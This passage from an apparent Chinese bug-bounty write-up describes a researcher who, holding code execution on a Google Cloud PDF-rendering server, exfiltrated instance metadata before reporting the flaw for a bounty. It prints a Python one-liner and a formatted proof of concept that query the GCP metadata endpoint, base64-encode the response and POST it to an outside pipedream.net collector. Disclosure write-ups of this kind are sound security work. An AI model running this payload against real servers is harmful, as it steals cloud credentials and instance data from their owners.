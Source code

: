     generic
    
    835 Bytes
    
    © Guge's Blog

`/proc/self/environ` 的内容非常非常敏感，由于负责生成 pdf 的服务器托管在 Google Cloud
上，我们还可以获取Metadata 响应，为了确认这一点，白帽子使用了如下payload进行测试：

    
    
    python3 -c "import requests;import base64;metadata_url = 'http://169.254.169.254/computeMetadata/v1/instance/?recursive=true';metadata_headers = {'Metadata-Flavor': 'Google'};response = requests.get(metadata_url, headers=metadata_headers);encoded_metadata = base64.b64encode(response.text.encode()).decode();target_server_url = 'https://en2celq7rewbul.m.pipedream.net/';data_payload = {'metadata': encoded_metadata};requests.post(target_server_url, json=data_payload)"
    
    generic
    
    468 Bytes
    
    © Guge's Blog

经过美化后的PoC：

    
    
    import requests
    
    import base64
    
    metadata_url = 'http://169.254.169.254/computeMetadata/v1/instance/?recursive=true'
    
    metadata_headers = {'Metadata-Flavor': 'Google'} # custom metadata header requirement we have RCE so we could add it easily ;)
    
    response = requests.get(metadata_url, headers=metadata_headers)
    
    encoded_metadata = base64.b64encode(response.text.encode()).decode()
    
    target_server_url = 'https://en2celq7rewbul.m.pipedream.net/'
    
    data_payload = {'metadata': encoded_metadata}
    
    requests.post(target_server_url, json=data_payload)
    
    generic
    
    540 Bytes
    
    © Guge's Blog

上面的代码可以向 Google 云Metadata端点发出请求，然后将 json 响应发送到白帽子的服务器（base64 编码）。

在确认所有这些信息后，白帽子停止了继续测试并向厂商报告了以上所有内容，目标厂商对漏洞报告非常满意，尽管他们的最高赏金是3K，但他们为该漏洞支付了4.5K赏金。

![]()

 **  
**

 **感谢阅读，如果觉得还不错的话，欢迎分享给更多喜爱的朋友～**

 ** **====正文结束====****  
